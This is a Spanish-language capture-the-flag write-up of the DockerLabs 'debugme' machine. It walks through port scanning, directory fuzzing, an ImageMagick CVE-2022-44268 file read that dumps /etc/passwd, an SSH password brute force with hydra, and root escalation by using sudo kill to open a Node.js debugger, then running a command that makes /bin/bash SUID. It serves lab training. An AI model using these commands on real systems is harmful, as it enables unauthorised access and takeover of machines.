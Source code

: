 Máquina "debugme" de [DockerLabs](https://dockerlabs.es)

Autor: [Lenam](https://len4m.github.io/)

Dificultad: Dificil

![debugme](./img/debug.png)

# RECONOCIMIENTO

Comenzamos con un escaneo de nmap:

```css
nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 172.17.0.2 -oG escaneo.txt
```

```ruby
# Nmap 7.94SVN scan initiated Wed Sep  4 23:52:56 2024 as: nmap -p- -n -vvv -sSVC -Pn --open --min-rate 5000 -oG escaneo.txt 172.17.0.2
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 172.17.0.2 ()	Status: Up
Host: 172.17.0.2 ()	Ports: 22/open/tcp//ssh//OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)/, 80/open/tcp//http//Apache httpd 2.4.29 ((Ubuntu))/, 443/open/tcp//ssl|http//Apache httpd 2.4.29 ((Ubuntu))/	Ignored State: closed (65532)
# Nmap done at Wed Sep  4 23:53:12 2024 -- 1 IP address (1 host up) scanned in 16.26 seconds
```

Como vemos, los puertos abiertos son:

`22: OpenSSH`

`80: Apache httpd`

`443: Apache httpd`

##### `Puerto 80:`

![80](./img/80.png)

Ahora hacemos fuzzing para ver si encontramos algun archivo o directorio con algo de información:

```css
gobuster dir -u http://<ip> -w <wordlist> -x php,html,txt
```

```ruby
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,html,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 2737]
/info.php             (Status: 200) [Size: 118002]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 781486 / 882244 (88.58%)
===============================================================
Finished
===============================================================
```

Como vemos tenemos un `info.php`, que al revisarlo encuentro algo que nos puede ayudar:

![info](./img/info.png)

Ahora que tenemos esta información podemos buscar algún exploit para imagick. Para este caso usaremos [este](https://github.com/voidz0r/CVE-2022-44268).

Una vez descargado el exploit haremos lo que dice el propio repositorio y luego de que nos suelte la imagen, la subiremos a la web. Una vez subida y reziseada nos quedará así:

![image](./img/image.png)

Tocamos click derecho en la imagen roja y nos la guardamos, una vez guardada nos movemos a donde la dejamos y utilizaremos `exiftool` para ver los metadatos. Para hacerlo solo ejecutamos esto:

```css
exiftool <imagen>.png
```

![meta](./img/meta.png)

Como vemos hay un montón de números, pero si hacemos lo que decía el repositorio podremos ver correctamente el `passwd`:

```css
python3 -c 'print(bytes.fromhex("1297.726f6f743a783[SNIP]6d652f6c656e616d3a2f62696e2f62617368.0a."))'
```

Este comando nos soltará en un formato legible el archivo:

```css
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
application:x:1000:1000::/home/application:/bin/bash
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
sshd:x:104:65534::/run/sshd:/usr/sbin/nologin
lenam:x:1001:1001::/home/lenam:/bin/bash
```

# INTRUSION

Ahora que tenemos un usuario, ejecutaremos hydra para el usuario lenam en el ssh:

```css
hydra -l lenam -P <wordlist> ssh://<ip>
```

![hydra](./img/hydra.png)

Ahora que tenemos una contraseña nos conectamos por ssh. **ya estamos dentro**

# ESCALADA DE PRIVILEGIOS

Si ejecutamos `sudo -l` veremos que podemos ejecutar como root el binario `kill`. Para escalar podemos ejecutar `ps aux` y ver si hay algún proceso corriendo del que nos podamos aprovechar:

```css
USER         PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
root           1  0.0  0.4  64176 15736 ?        Ss   02:37   0:01 /usr/bin/python /usr/bin/supervisord -c /opt/docker/etc/super
root          44  0.0  0.0 216184  2840 ?        S    02:37   0:00 syslog-ng -F --no-caps -p /var/run/syslog-ng.pid
root          45  0.0  0.4 711228 17956 ?        S    02:37   0:00 php-fpm: master process (/etc/php/7.2/fpm/php-fpm.conf)
root          46  0.0  0.1  99288  4152 ?        S    02:37   0:00 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
root          47  0.0  0.0  30108  1280 ?        S    02:37   0:00 /usr/sbin/cron -f
root          53  0.0  0.5 922048 21528 ?        Sl   02:37   0:00 /usr/bin/node /index.js
root          76  0.0  0.0  72304  2000 ?        Ss   02:37   0:00 /usr/sbin/sshd
www-data      78  2.2  0.3 1312076 14596 ?       Sl   02:37   1:17 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
www-data      79  2.2  0.3 1311668 11992 ?       Sl   02:37   1:15 apache2 -DFOREGROUND -DAPACHE_LOCK_DIR
applica+     245  0.0  0.4 717096 18332 ?        S    03:01   0:01 php-fpm: pool www
applica+     246  0.0  0.3 713876 14344 ?        S    03:01   0:00 php-fpm: pool www
applica+     247  0.0  0.4 949824 18376 ?        S    03:02   0:00 php-fpm: pool www
root         563  0.0  0.1 104044  7296 ?        Ss   03:33   0:00 sshd: lenam [priv]
lenam        578  0.0  0.1 104044  4376 ?        R    03:33   0:00 sshd: lenam@pts/0
lenam        579  0.0  0.1  20272  3840 pts/0    Ss   03:33   0:00 -bash
lenam        595  0.0  0.0  36016  3328 pts/0    R+   03:34   0:00 ps aux
```

Como vemos el PID 53 está corriendo node, y si buscamos en [HackTricks](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse) veremos que se puede escalar si ejecutamos lo siguiente:

```css
sudo kill -s SIGUSR1 <PID>
```

Ahora si ejecutamos `netstat -atunop` veremos que el nodjs se ha reiniciado y está abierto el puerto 9229. Ahora ejecutamos:

```css
node inspect 127.0.0.1:9229
```

y luego ejecutamos esto dentro del modo debug:

```css
exec("process.mainModule.require('child_process').exec('chmod u+s /bin/bash')")
```

luego salimos y ponemos `bash -p` y **ya seremos root:**

![root](./img/root.png)

Gracias por leer.